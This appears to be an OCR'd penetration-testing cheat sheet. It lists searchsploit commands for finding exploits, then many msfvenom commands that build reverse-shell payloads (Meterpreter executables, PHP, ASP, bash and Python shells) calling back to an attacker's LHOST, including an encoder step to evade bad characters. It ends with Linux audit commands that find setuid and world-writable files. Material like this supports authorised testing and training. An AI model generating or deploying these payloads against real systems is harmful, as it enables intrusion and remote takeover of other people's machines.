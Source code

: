 
	Exploit-DB search using CSV File
	git clone https://github.com/offensive-security/exploit-database.git
	cd exploit-database
	./searchsploit –u
	./searchsploit apache 2.2
	./searchsploit "Linux Kernel"

	cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3

	MSF Payloads
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
	msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c


	MSF Linux Reverse Meterpreter Binary
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
	MSF Reverse Shell (C Shellcode)
	msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
	MSF Reverse Shell Python Script
	msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
	MSF Reverse ASP Shell
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
	MSF Reverse Bash Shell
	msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
	MSF Reverse PHP Shell
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
	add <?php at the beginning
	perl -i~ -0777pe's/^/<?php \n/' shell.php
	MSF Reverse Win Bin
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe


	Linux Security Commands
	# find programs with a set uid bit
	find / -uid 0 -perm -4000
	# find things that are world writable
	find / -perm -o=w
	# find names with dots and spaces, there shouldn’t be any
	find / -name " " -print
	find / -name ".." -print
	find / -name ". " -print
	find / -name " " -print
	# find files that are not owned by anyone
	find / -nouser
	# look for files that are unlinked
	lsof +L1